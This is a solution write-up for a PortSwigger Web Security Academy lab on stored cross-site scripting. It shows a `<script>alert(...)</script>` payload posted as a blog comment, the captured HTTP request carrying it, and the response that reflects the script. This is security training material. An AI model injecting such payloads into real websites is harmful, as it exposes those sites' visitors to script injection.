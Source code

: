 ```yaml
---
title: >
  Solution to Lab: Stored XSS into HTML context with nothing encoded
---
```


The following is a solution to [Lab: Stored XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded).

Navigate to a blog post.

Leave the following payload in the body of a comment:
`<script>alert("boop");</script>`

This step is demonstrated in the screenshot below.
![A screenshot of the comment box with the alert("boop") payload as the body of the comment](/wsa-labs/docs/assets/alert()-poc-4202023-1.png)

Post the comment. Doing so solves the lab.

To see the effects of the alert() function, click Back to blog. The alert box should appear. This is shown in the screenshot below.
![A screenshot of the alert box with the message "boop"](/wsa-labs/docs/assets/alert()-poc-4202023-2.png)

The HTTP request associated with the action of posting the comment is below, as pulled from the HTTP history section of the Proxy tab in Burp Suite. The URL-encoded JavaScript can be seen at the bottom of the request.

~~~
The HTTP request associated with this action appears below, as pulled from the HTTP history section of the Proxy tab in Burp Suite.

POST /post/comment HTTP/2
Host: 0a3a001b0379440182b5e235007a00ac.web-security-academy.net
Cookie: [redacted]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 183
Origin: https://0a3a001b0379440182b5e235007a00ac.web-security-academy.net
Referer: https://0a3a001b0379440182b5e235007a00ac.web-security-academy.net/post?postId=3
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

csrf=t2mkGTOtphNJPCANub2fdi6DX3X5cyP5&postId=3&comment=%3Cscript%3Ealert%28%22boop%22%29%3C%2Fscript%3E&name=Jean-Luc+Picard&email=email%40email.com&website=http%3A%2F%2Fwww.email.com
~~~

A snippet of the HTTP response when one navigates back to the blog appears below.

~~~
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 9494

<!DOCTYPE html>
<html>
...
<script>alert("boop")</script>
...
~~~